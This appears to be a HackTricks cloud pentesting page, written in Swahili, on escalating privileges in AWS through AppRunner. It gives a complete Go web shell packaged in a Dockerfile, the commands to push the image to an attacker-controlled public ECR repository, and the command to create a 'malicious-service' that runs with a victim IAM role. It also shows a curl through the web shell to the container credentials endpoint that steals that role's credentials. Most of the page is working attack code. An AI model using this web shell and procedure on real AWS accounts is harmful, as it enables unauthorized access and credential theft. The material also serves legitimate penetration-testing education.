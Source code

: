# AWS - AppRunner Privesc

{{#include ../../../banners/hacktricks-training.md}}

## AppRunner

### `iam:PassRole`, `apprunner:CreateService`

Mshambuliaji mwenye ruhusa hizi anaweza kuunda huduma ya AppRunner yenye jukumu la IAM lililounganishwa, na hivyo kuongeza mamlaka kwa kufikia akiba za jukumu hilo.

Mshambuliaji kwanza huunda Dockerfile inayotumika kama shell ya wavuti kutekeleza amri za kawaida kwenye kontena la AppRunner.
```Dockerfile
FROM golang:1.24-bookworm
WORKDIR /app
RUN apt-get update && apt-get install -y ca-certificates curl
RUN cat <<'EOF' > main.go
package main

import (
"fmt"
"net/http"
"os/exec"
)

func main() {
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
command := exec.Command("sh", "-c", r.URL.Query().Get("cmd"))
output, err := command.CombinedOutput()
if err != nil {
fmt.Fprint(w, err.Error(), output)
return
}

fmt.Fprint(w, string(output))
})
http.ListenAndServe("0.0.0.0:3000", nil)
}
EOF
RUN go mod init test && go build -o main .
EXPOSE 3000
CMD ["./main"]
```
Kisha, sukuma picha hii kwenye hifadhi ya ECR.  
Kwa kusukuma picha hiyo kwenye hifadhi ya umma katika akaunti ya AWS inayodhibitiwa na mshambuliaji, kupanda kwa mamlaka kunawezekana hata kama akaunti ya mwathirika haina ruhusa za kudhibiti ECR.
```sh
IMAGE_NAME=public.ecr.aws/<alias>/<namespace>/<repo-name>:latest
docker buildx build --platform linux/amd64 -t $IMAGE_NAME .
aws ecr-public get-login-password | docker login --username AWS --password-stdin public.ecr.aws
docker push $IMAGE_NAME
docker logout public.ecr.aws
```
Kisha, mshambuliaji anaunda huduma ya AppRunner iliyo na picha hii ya web shell na IAM Role wanayotaka kutumia.
```bash
aws apprunner create-service \
--service-name malicious-service \
--source-configuration '{
"ImageRepository": {
"ImageIdentifier": "public.ecr.aws/<alias>/<namespace>/<repo-name>:latest",
"ImageRepositoryType": "ECR_PUBLIC",
"ImageConfiguration": { "Port": "3000" }
}
}' \
--instance-configuration '{"InstanceRoleArn": "arn:aws:iam::123456789012:role/AppRunnerRole"}' \
--query Service.ServiceUrl
```
Baada ya kusubiri kumalizika kwa uundaji wa huduma, tumia shell ya wavuti kupata akreditif za kontena na kupata ruhusa za IAM Role iliyoambatanishwa na AppRunner.
```sh
curl 'https://<service-url>/?cmd=curl+http%3A%2F%2F169.254.170.2%24AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```
**Madhara Yanayoweza Kutokea:** Kuinua kibali moja kwa moja kwa yoyote IAM role ambayo inaweza kuunganishwa na huduma za AppRunner.

{{#include ../../../banners/hacktricks-training.md}}
